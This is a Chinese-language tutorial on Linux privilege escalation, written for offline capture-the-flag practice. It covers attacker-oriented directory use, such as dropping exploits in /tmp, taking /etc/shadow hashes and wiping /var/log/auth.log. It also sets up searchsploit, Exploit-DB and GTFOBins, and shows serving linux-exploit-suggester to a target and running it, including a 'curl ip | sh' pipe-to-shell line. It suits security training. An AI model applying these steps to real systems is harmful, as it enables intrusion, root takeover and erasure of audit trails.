


# 什么是Linux提权

权限提升（Privilege escalation）是指利用网络或应用软件中的程序漏洞、设计缺陷或配置疏忽来获取对应用程序或用户说法受保护资源的高级访问权限。其结果是，应用程序可以授权获取比应用程序开发者或系统管理员的更高的权限，从而可以执行的动作。

Linux提权一般是指获取root用户权限的操作过程。

**Linux提权的本质**一方面是信息收集，另一方面是对内核漏洞的掌握情况。

# Linux提权目的

提权操作有风险为什么还要进行提权？什么情况下需要进行提权？获取高权限之后可以做什么？

通过执行命令漏洞获取的一个临时shell或者通过Web漏洞获取了一个Webshel​​l后，一般情况下权限都较低。在执行一些重要敏感的操作或者对重要的文件进行修改时无法正常进行，则需要进行提权。Linux安装的数据库、中间件等一般都不以root用户启动的，通过数据库或者中间件获取到的权限是低权限的。

**获取root权限是每个黑客的梦想。**

* 读取读取服务器中的重要文件：
  * 修改root密码
  * 替换系统命令
* 在系统中安置残骸的后门：
  * 平后门
  * Rootkit
* 保证服务器重启后权限不变：
  * 内存后门

# linux提权手法分类

- 以某种方式可以把低权限的脚本以高权限执行

- 服务器运维人员需要输入敏感信息（比如密码之类的）并忘记清理相关信息，我们以某种方式获取

- 对Linux权限体系的上层捕捉拦截或修改凭据信息或权限信息

# Linux目录结构初识：

理解 Linux 的目录结构，能帮你快速找到敏感配置文件、投递提权脚本，并理解工具的存放逻辑。

## /opt

* **全称**：Optional (可选的)

* **用途**：用于安装附加的软件包。

* **特点**：这里存放的软件通常是一个完整的文件夹，包含了它自己所需的 bin、lib 和配置文件。

* **在Linux提权中的意义**：
  
  * **工具存放地**：像 `exploitdb`、`google-chrome`、`nessus` 这种不属于 Linux 发行版自带的第三方工具通常装在这里。
  
  * **寻找漏洞**：如果管理员在这里手动安装了一些老旧、有漏洞的商业软件，这里就是提权的突破口。

## /tmp 与 /dev/shm

* **用途**：存放临时文件。

* **渗透意义**：
  
  * **全员可写**：几乎所有低权限用户都对这两个目录有 `rwx` 权限。
  
  * **投递 EXP**：这是你从 Kali 下载 `linpeas.sh` 或编译好的 ELF 文件到靶机后的**首选存放地**。
  
  * **隐蔽性**：`/dev/shm` 是内存文件系统，重启即消失，且在内存中运行脚本速度极快，动静更小。

## /etc

* **用途**：存储系统配置文件。

* **渗透意义**：
  
  * **`/etc/passwd`**：查看系统用户列表。
  
  * **`/etc/shadow`**：如果这个文件可读，你可以直接把 Hash 拿走离线爆破（提权核心）。
  
  * **`/etc/crontab`**：查看计划任务，寻找定时以 root 权限运行的可写脚本（提权核心）。

## /bin 与 /usr/bin

* **用途**：存放系统命令（二进制文件）。

* **渗透意义**：
  
  * **查找 SUID**：你的 `find / -perm -u=s` 命令搜的就是这里面的文件（如 `pkexec`, `find`, `vim`）。
  
  * **环境变量劫持**：如果你能修改 `$PATH` 让其优先指向你控制的目录，就能劫持系统命令。

## /var/www 与 /var/log

* **用途**：`/var/www` 存网页代码，`/var/log` 存日志。

* **渗透意义**：
  
  * **翻找代码**：在 `www` 目录下寻找数据库连接文件（如 `config.php`），里面常有明文密码。
  
  * **痕迹清理**：在拿到 root 权限后，黑客通常会清理 `/var/log/auth.log` 来抹除登录记录。

总结建议
-------

1. **想装新工具**：去 `/opt`

2. **想传 EXP 到靶机**：去 `/tmp`。

3. **想找系统漏洞**：去 `/etc` 和 `/usr/bin`（找 SUID）。

# Linux提权过程中可能用到的知识查询书和好用的工具

一般线下赛是没网的，这时候我们本地必须也有知识库

## Linux命令行

关于linux基础命令我建议下载一个utools的程序员手册，里面都包含了基础用法

## Tmux

在渗透测试中，我们经常需要一边看日志，一边敲命令，还得挂着反弹 Shell。`tmux` 可以让你在一个窗口里搞定所有事情，并且保证任务永不断线。不过这个工具不是必需品，只是一个**优化操作体验**的工具。如果时间不够用建议直接看下面实战立刻就能用上的工具

### 下载并配置：

```bash
# 下载
sudo apt update
sudo apt install tmux -y
# 配置
vim ~/.tmux.conf
# 开启鼠标支持
set -g mouse on
# 生效配置：在 Tmux 内按 Ctrl + b + : 输入 source-file ~/.tmux.conf
```


### 使用：

启动tmux：

```bash
# 创建一个新的会话 my_work
tmux new -s my_work
```

tmux所有命令都要加前缀 ctrl + b，按完这个再按其他命令

**基础分屏**

* **左右分屏**：`Ctrl + b` + `%`

* **上下分屏**：`Ctrl + b` + `"`

* **关闭当前面板**：输入 `exit` 或 `Ctrl + d`

**空间管理**

* **全屏化/撤销全屏：**`Ctrl + b` + `z`
  按一下 `z` 瞬间全屏，写完再按一下 `z` 回到分屏模式。

**快速切换**

* **方向切换**：`Ctrl + b` + `方向键`

* **鼠标切换**：直接点击你想操作的那个区域。
  
  

如果使用完了我们可以按ctrl + b + d,这样我们是离开整个会话，但是注意里面的服务还是在运行的

如果想回到会话就

```bash
tmux ls # 看当前都有哪些会话

# 重新连接会话，-t指target
tmux a -t my_work

# 会话里的服务用不到了可以杀死会话
tmux kill-session -t my_work
```


## Exploit-DB(EXP库)

这个是一个非常常用的exp数据库 https://www.exploit-db.com/ ，包含了几乎所有漏洞的exp

这个工具还有一个和它配套的搜索器`searchsploit` 留在下一个讲

### EDB包含什么

每个EDB条目包含下面三部分：

**1.漏洞利用脚本**

这是最核心的部分。它可能是：

* **C 源代码**：通常需要你下载到靶机或本地编译（如 `gcc exploit.c -o exploit`）。

* **Python/Ruby/Perl 脚本**：直接运行的自动化工具。

* **文本说明**：手动的操作步骤（Manual PoC）。

**2.漏洞描述与影响**

页面会明确告诉你：

* **软件版本**：例如 `Ubuntu 16.04` 或 `MySQL 5.5.x`。

* **漏洞类型**：是“远程代码执行 (RCE)”还是“本地提权 (Privilege Escalation)”。

* **作者备注**：开发者通常会写明这个漏洞是在什么环境下测试成功的。

**3.漏洞分析报告**

有些复杂的 CVE 会配有一份 **PDF 或文本报告**。

* **作用**：详细解释原理，甚至手把手教你如何搭建一个一模一样的靶机环境来复现。
  
  

### 如何使用EDB

一般每个exp都会有脚本或者单独的TXT文件，如果有txt文件，使用方法一般在txt文件，否则就在脚本注释里

**示例**：

```py
# Exploit Title: Linux Kernel 4.x - 'PwnKit'
# Usage: python3 exploit.py <target_ip>
# Requirement: Need standard user access
```

### 如何本地部署EDB

在断网或物理隔离的比赛（如 ISW）中，无法访问官网(咱们上面给出的URL)，因此必须提前进行本地部署。

```bash
#下载 Exploit-DB 完整仓库（包含搜索工具和几万个脚本）
sudo git clone https://github.com/offensive-security/exploitdb.git
```



在这里我们看到和EDB配套的searchsploit已经下载好了，我们可以把它放到`/usr/local/bin`里

```bash
#创建软链接
sudo ln -sf /opt/exploitdb/searchsploit /usr/local/bin/searchsploit
```


## searchsploit(搜索EXP)

`searchsploit`是一个快速查找我们EDB里存放exp（包含系统内核漏洞和软件漏洞）的小工具，下面给出`searchsploit`的使用方法

**如果忘记使用方法就输入**

```bash
searchsploit -h
```

文档里都详细记载了，不过平时记住核心使用方法最好

### 核心基础命令

| 功能       | 命令格式                   | 说明                       |
| -------- | ---------------------- | ------------------------ |
| **基础搜索** | `searchsploit <关键字>`   | 搜索包含该关键字的所有漏洞。           |
| **查代码**  | `searchsploit -x <ID>` | **最常用**。直接在终端里阅读脚本内容/注释。 |
| **拷贝代码** | `searchsploit -m <ID>` | 将对应的脚本拷贝到你当前的工作目录下。      |
| **查路径**  | `searchsploit -p <ID>` | 显示脚本在本地的绝对路径。            |

例如：



命令里对应的<ID>就是PATH里的数字命名序号

### 更新与维护

由于我们是使用 `git clone` 安装的，`searchsploit -u` 有时会报错。 **推荐更新方式：**

```bash
cd /opt/exploitdb
sudo git pull
```

**离线搜索的本质**：它搜索的是 `/opt/exploitdb/files_exploits.csv` 这个索引文件。

**文件位置**：脚本都在 `/opt/exploitdb/exploits/` 目录下


## Linux Exploit Suggester(寻找当前系统内核有什么漏洞)

Linux Exploit Suggester 是一个根据内核版本号（`uname -a`）来预测可能存在的 CVE 漏洞的脚本。

实战建议先跑这个看看有没有内核漏洞，如果全是低危或者没有，那只能查服务器上运行了什么服务，然后用searchsploit查软件漏洞，如果软件也没有漏洞，只能手打了（查suid之类的）

### 下载命令：

```bash
wget https://raw.githubusercontent.com/mzet-/linux-exploit-suggester/master/linux-exploit-suggester.sh
chmod +x linux-exploit-suggester.sh
# 改一个缩写名，到时候用的时候好打
mv linux-exploit-suggester.sh les.sh
```


### 如何在把这个工具送到靶机：

1. **攻击机**到对应文件夹开启服务：
   
   ```bash
   python3 -m http.server 80
   #把当前目录变成http服务器的根目录
   ```

2. **靶机** 下载执行：
   
   ```bash
   wget http://<你的IP>/les.sh 
   #或者 ，靶机直接用curl ip/目录 | sh 就能用了
   bash les.sh
   ```

### 运行结果：

```bash
s0m1ng@LAPTOP-EV3HBGTC:~/ISW_Workspace/Tools/Linux$ ./les.sh

Available information:

Kernel version: 6.6.87.2
Architecture: x86_64
Distribution: N/A
Distribution version: N/A
Additional checks (CONFIG_*, sysctl entries, custom Bash commands): performed
Package listing: N/A

Searching among:

86 kernel space exploits
0 user space exploits

Possible Exploits:

[+] [CVE-2022-2586] nft_object UAF

   Details: https://www.openwall.com/lists/oss-security/2022/08/29/5
   Exposure: less probable
   Tags: ubuntu=(20.04){kernel:5.12.13}
   Download URL: https://www.openwall.com/lists/oss-security/2022/08/29/5/1
   Comments: kernel.unprivileged_userns_clone=1 required (to obtain CAP_NET_ADMIN)

[+] [CVE-2021-22555] Netfilter heap out-of-bounds write

   Details: https://google.github.io/security-research/pocs/linux/cve-2021-22555/writeup.html
   Exposure: less probable
   Tags: ubuntu=20.04{kernel:5.8.0-*}
   Download URL: https://raw.githubusercontent.com/google/security-research/master/pocs/linux/cve-2021-22555/exploit.c
   ext-url: https://raw.githubusercontent.com/bcoles/kernel-exploits/master/CVE-2021-22555/exploit.c
   Comments: ip_tables kernel module must be loaded

s0m1ng@LAPTOP-EV3HBGTC:~/ISW_Workspace/Tools/Linux$
```

**Exposure (可能性)**:

* `highly probable`: **高概率成功**，优先尝试。

* `probable`: 可能成功。

* `less probable`: 可能性较低。

**Download URL / EDB-ID**:看到这个后，你就可以用你的 `searchsploit`里拿EXP了。


## Linpeas

作用是快速收集系统信息，和les一样他也会查可能存在的漏洞，不过输出更详细，具体使用放在了


## GTFOBins

**GTFOBins** 是一个开源的、精心收集的提权清单集合。它的全称有点抽象（Get The Fuck Out Bins），意为“逃逸出二进制程序的限制”。

### 核心原理：合法功能的滥用

系统里有很多自带的合法程序（比如用来查找文件的 `find`，用来编辑文本的 `vim`，用来打包的 `tar`）。如果管理员为了方便，给这些普通程序赋予了 **SUID（超级用户执行权限）**，或者允许你通过 **Sudo（免密执行）** 运行它们，那我们就可以利用这些程序本身自带的“执行系统命令”或“读取文件”的功能，来弹出一个 root 权限的 Shell。

### 它与 Exploit-DB 的本质区别

这两者同为提权知识库，区别在于：

**Exploit-DB**：针对的是软件 **代码层面的 Bug**（比如缓冲区溢出、内核条件竞争）。你需要编译运行一段 C 语言代码来攻击它。

**GTFOBins**：针对的是系统 **人为配置层面的失误**。这里的程序没有任何 Bug，我们只是在**巧妙利用**它的正常功能来提权


### 下载到本地方法：

这个和EDB不同，他是一个网页类型的知识库

**不过我们要注意：不要直接去 GitHub 下载 ZIP** GTFOBins 官网是用 Jekyll 生成的动态博客。如果你直接在 GitHub 上点击 `Download ZIP`，你下载到的只是 Markdown 源码。Windows 浏览器无法直接渲染 Jekyll 引擎，双击打开后排版会全乱，且搜索框完全失效。

下面给出正确下载方法：

```bash
sudo wget -r -p -k -E -np -nH https://gtfobins.org/
sudo mkdir -p GTFOBins
sudo mv index.html assets gtfobins api.json GTFOBins/
```

然后我们

```bash
explorer.exe gtfobins.github.io
```

就可以在windows本地打开这个网站了

注意：我这里用的是wsl，所以可以用explorer.exe命令，如果是vmware的话直接在对应浏览器打开gtfobins.github.io里的html就行了

### 基础用法：

直接在搜索框搜索对应命令即可拿到linux命令可能的提权用法
